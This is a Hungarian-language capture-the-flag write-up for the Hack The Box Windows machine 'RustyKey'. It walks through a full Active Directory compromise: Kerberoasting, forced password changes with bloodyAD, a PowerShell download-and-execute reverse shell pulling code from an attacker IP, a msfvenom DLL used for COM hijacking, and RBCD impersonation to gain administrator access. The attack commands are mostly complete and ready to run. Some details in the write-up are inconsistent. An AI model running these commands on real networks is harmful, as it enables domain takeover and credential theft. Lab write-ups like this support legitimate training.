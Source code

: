 **Platform:** Windows  
**IP:** 10.129.105.53  
**Difficulty:** Hard  
**Author:** NoSec

> 🚨 **Kövess élőben HTB-n — leakek, dropok és mély writeupok**  
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)  
> _Ne olvasd. Csatlakozz._

---

## Recon

```bash
nmap -sC -sV -Pn 10.129.105.53
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-28 23:25 CEST
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 83.33% done; ETC: 23:25 (0:00:01 remaining)
Nmap scan report for 10.129.188.219
Host is up (0.099s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-29 05:25:30Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m47s
| smb2-time: 
|   date: 2025-06-29T05:25:41
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.65 seconds
```

Kapunk alapból egy felhasználó jelszó párost a géphez, 

```
rr.parker / 8#t5HE8L!W3A
```

Hosts fájl szerkesztése

```bash
sudo nano /etc/hosts
10.129.105.53		rustykey.htb dc.rustykey.htb
```

Idő szinkron fontos, 

```bash
sudo rdate -n RUSTYKEY.HTB
```

## Bloodhound

```bash
bloodhound-python -u 'rr.parker' -p '8#t5HE8L!W3A' -d rustykey.htb -dc dc.rustykey.htb -gc dc.rustykey.htb -ns 10.129.105.53 --disable-autogc -c all --zip
```

Az IT-COMPUTER3-nak van joga hozzáadnia magát a helpdeskhez, a helpdesknek ForceChangePassword joga van BB.Morgan felett, ezt fogjuk kihasználni.

Szerezzük meg a jelszavát

```bash
impacket-GetUserSPNs 'rustykey.htb/rr.parker:8#t5HE8L!W3A' -k -request -dc-ip 10.129.105.53 -dc-host dc.rustykey.htb -usersfile users.txt -outputfile comp3.hash
```

Hashcatel törjük fel

```bash
hashcat -m 13100 comp3.hash /usr/share/wordlists/rockyou.txt
```

Jelszó: Rus<pass>

## Csoporthoz adás + jelszómódosítás

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k add groupMember HELPDESK 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```
```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k set password BB.MORGAN 'Password1234'
[+] Password changed successfully!
```
```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k set password EE.REED 'Password123'
[+] Password changed successfully!
```

## Protected Objects törlés

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'IT'
[-] IT removed from PROTECTED OBJECTS
```

## Kerberos conf beállítás

```bash
sudo nano /etc/krb5.conf
```

```
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    forwardable = true
    rdns = false

[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
        admin_server = dc.rustykey.htb
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
```

## User flag

```bash
impacket-getTGT 'RUSTYKEY.HTB/BB.MORGAN:Password1234'
export KRB5CCNAME=BB.MORGAN.ccache
```
```bash
evil-winrm -i dc.rustykey.htb -r RUSTYKEY.HTB
```
```bash
└─$ evil-winrm -i dc.rustykey.htb -r RUSTYKEY.HTB
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> ls
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> cd ..
*Evil-WinRM* PS C:\Users\bb.morgan> cd Desktop
*Evil-WinRM* PS C:\Users\bb.morgan\Desktop> ls


    Directory: C:\Users\bb.morgan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---        6/29/2025  12:56 PM             34 user.txt
```

## Reverse shell ee.reed userrel

```bash
rlwrap nc -lvnp 5566
```

```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.90:8888/Invoke-RunasCs.ps1'); Invoke-RunasCs -Username ee.reed -Password Password123! -Command cmd.exe -Remote 10.10.14.90:5566
```

## Web Delivery és COM hijack, mm.turner reverse shell

```bash
rlwrap msfconsole -q -x 'use exploit/multi/script/web_delivery; set SRVPORT 8899; set LPORT 8989; set LHOST tun0; set TARGET PSH; set PAYLOAD windows/x64/meterpreter/reverse_tcp; run'
```

Miután ez lefutott, futtatjuk a célgépen a generált PS parancsot.

```bash
msfvenom -p windows/x64/exec CMD='<base64_encoded_ps>' EXITFUNC=none -f dll > x.dll
```

```bash
curl http://10.10.14.90:8888/x.dll -o \programdata\x.dll
```

```bash
reg add "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /t REG_SZ /d "C:\\programdata\\x.dll" /f
```
```bash
rundll32.exe C:\\programdata\\x.dll,DllRegisterServer
```

## RBCD mm.turnerrel

```bash
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```
```bash
impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip $ip -k 'RUSTYKEY.HTB/IT-COMPUTER3$:Rus<pass>'
```
```bash
export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```

## Root flag megszerzése

```bash
timpacket-smbexec -k -no-pass 'RUSTYKEY.HTB/backupadmin@dc.rustykey.htb'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 00BA-0DBE

 Directory of C:\Users\Administrator\Desktop

06/24/2025  10:00 AM    <DIR>          .
06/24/2025  10:00 AM    <DIR>          ..
06/30/2025  07:32 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,911,215,616 bytes free
               
type C:\Users\Administrator\Desktop\root.txt
```

---
> Kövess további writeupokért, real-time leakekért és tanulási anyagokért:
> **👉 [https://t.me/nosecpwn](https://t.me/nosecpwn)**

